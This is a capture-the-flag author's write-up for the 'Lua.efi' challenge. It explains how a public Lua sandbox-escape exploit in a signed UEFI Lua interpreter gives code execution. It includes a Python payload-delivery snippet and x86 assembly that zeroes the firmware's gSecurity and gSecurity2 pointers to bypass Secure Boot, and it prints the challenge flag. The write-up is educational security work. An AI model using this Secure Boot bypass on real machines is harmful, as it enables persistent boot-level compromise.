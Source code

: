 # Lua.efi

by YiFei Zhu

> The engineers at SIGPwny Inc. wants to retaliate against PwnySIG Inc. for
> finding their secrets. They found PwnySIG Inc.'s server and was able to
> detach its hard drive and replace the kernel with a backdoor-ed kernel.
>
> Unfortunately, they soon discovered that the server has secure boot on, and
> there's no firmware setup to disable it... how would it be possible to boot
> this backdoor kernel? Hmm... what's this? How considerate of PwnySIG Inc. to
> leave a signed lua interpreter wide open. Maybe they can bypass secure boot
> through that?
>
> `$ socat file:$(tty),raw,echo=0 openssl:lua-efi.chal.uiuc.tf:1337`
>
> Hint: Feel free to use known exploits that exist in the wild to escape the
> lua "jail", such as https://gist.github.com/corsix/49d770c7085e4b75f32939c6c076aad6

This challenge is my attempt at making an easier UEFI challenge. I wanted to
explore secure boot's trust model, but it really doesn't make sense for there
to be a signed binexec. A calculator makes more sense, and besides, it's a lot
more interesting to see "wait what Lua can run in ring 0 in UEFI?!"

[AppPkg from edk2-libc](https://github.com/tianocore/edk2-libc/tree/master/AppPkg/Applications)
actually has both Python and Lua, but Python is a lot larger, and because I'm
Don't Starve player (a game whose main logic and modding API is in Lua), I also
wanted to raise the awareness of Lua untrusted bytecode being a security
problem.

However, Lua exploitation is not the main focus of this challenge, so I just
gave a public working exploit against Lua in the hints, without patching the
exploit out. Built-in functions such as `io.open` and `os.execute` are removed
because they are just distractions and completely irrelevant from the intended
solve. However, I added ASLR so the challenge isn't so completely trivial that
one can just hardcode addresses.

Apparently... I underestimated the difficulty of this challenge...

## Lua

Not much to say about the Lua stage. The exploit from the Gist pretty much
works as-is after removing the `local` keywords.

`make_CClosure` gives a way to call arbitrary code at an address, and UEFI is
not W^X in most cases, so I can just run a payload through a string... And Lua
strings... are very simple:

```C
/*
** Header for string value; string bytes follow the end of this structure
*/
typedef union TString {
  L_Umaxalign dummy;  /* ensures maximum alignment for strings */
  struct {
    CommonHeader;
    lu_byte extra;  /* reserved words for short strings; "has hash" for longs */
    unsigned int hash;
    size_t len;  /* number of characters in string */
  } tsv;
} TString;
```

So if I can load the payload as string, the bytes of the payload is 24 bytes
after the string's address, so I just need:
```python
with open('payload', 'rb') as f:
    r.send(f'''\
payload = {repr(f.read())[1:]}
cpayload = make_CClosure(addr_of(payload) + 24)
cpayload()
os.exit()
'''.encode())
```

## UEFI

Once there is arbitrary code execution, there are many ways to disable secure
boot. I just looked at what gave the secure boot violation:

```
../src/boot/boot.c:2560@image_start: Error loading \EFI\Linux\bzImage.uki.efi: Access denied
```

UEFI Image loading contains two steps: LoadImage, and StartImage. Let's look at
LoadImage first; it does this:
```C
EFI_STATUS
CoreLoadImageCommon (
  IN  BOOLEAN                   BootPolicy,
  IN  EFI_HANDLE                ParentImageHandle,
  IN  EFI_DEVICE_PATH_PROTOCOL  *FilePath,
  IN  VOID                      *SourceBuffer       OPTIONAL,
  IN  UINTN                     SourceSize,
  IN  EFI_PHYSICAL_ADDRESS      DstBuffer           OPTIONAL,
  IN OUT UINTN                  *NumberOfPages      OPTIONAL,
  OUT EFI_HANDLE                *ImageHandle,
  OUT EFI_PHYSICAL_ADDRESS      *EntryPoint         OPTIONAL,
  IN  UINT32                    Attribute
  )
{
[...]
  if (gSecurity2 != NULL) {
    //
    // Verify File Authentication through the Security2 Architectural Protocol
    //
    SecurityStatus = gSecurity2->FileAuthentication (
                                   gSecurity2,
                                   OriginalFilePath,
                                   FHand.Source,
                                   FHand.SourceSize,
                                   BootPolicy
                                   );
    if (!EFI_ERROR (SecurityStatus) && ImageIsFromFv) {
      //
      // When Security2 is installed, Security Architectural Protocol must be published.
      //
      ASSERT (gSecurity != NULL);

      //
      // Verify the Authentication Status through the Security Architectural Protocol
      // Only on images that have been read using Firmware Volume protocol.
      //
      SecurityStatus = gSecurity->FileAuthenticationState (
                                    gSecurity,
                                    AuthenticationStatus,
                                    OriginalFilePath
                                    );
    }
  } else if ((gSecurity != NULL) && (OriginalFilePath != NULL)) {
    //
    // Verify the Authentication Status through the Security Architectural Protocol
    //
    SecurityStatus = gSecurity->FileAuthenticationState (
                                  gSecurity,
                                  AuthenticationStatus,
                                  OriginalFilePath
                                  );
  }
```

So as long as both `gSecurity` and `gSecurity2` are unset, there won't be
file authentication.

I just craft the payload: get the base address of Lua.efi from the return
address, then follow `gBS->LoadImage` to get the base address of DxeCore.efi,
and proceed to zero the two variables (I didn't even bother to check which
one is set, because one extra instruction really doesn't matter):

```asm
LuaEfi_off_gBS = 0x34638
LuaEfi_off_retaddr = 0x1cf13

BS_off_LoadImage = 200

DxeCore_off_CoreLoadImage = 0x9f4
DxeCore_off_gSecurity = 0x25710
DxeCore_off_gSecurity2 = 0x255f0

_start:
  # RAX = gBS
  mov (%rsp),%rax
  add $(LuaEfi_off_gBS-LuaEfi_off_retaddr),%rax
  mov (%rax),%rax

  # RAX = DxeCore.efi
  mov BS_off_LoadImage(%rax),%rax
  add $-DxeCore_off_CoreLoadImage,%rax

  movq $0,DxeCore_off_gSecurity(%rax)
  movq $0,DxeCore_off_gSecurity2(%rax)

  xor %eax,%eax
  ret
```

... and it works. Secure boot is disabled, and we can boot the kernel to
obtain the flag.

```
+ mkdir -p /proc /dev /sys /etc /mnt
+ mount -n -t proc -o nosuid,noexec,nodev proc /proc/
+ mount -n -t devtmpfs -o 'mode=0755,nosuid,noexec' devtmpfs /dev
+ mount -n -t sysfs -o nosuid,noexec,nodev sys /sys
+ mount -n -t tmpfs -o 'mode=1777' tmpfs /tmp
+ mount -n -t 9p flag -o 'nosuid,noexec,nodev,version=9p2000.L,trans=virtio,msize=104857600' /mnt
+ cat /mnt/flag
uiuctf{broken_chain_of_trust_is_a_lot_of_damage_fb61a3b1}
```

The flag refers to how secure boot relies heavily on chain of trust, where if
one part is compromised, everything falls apart.
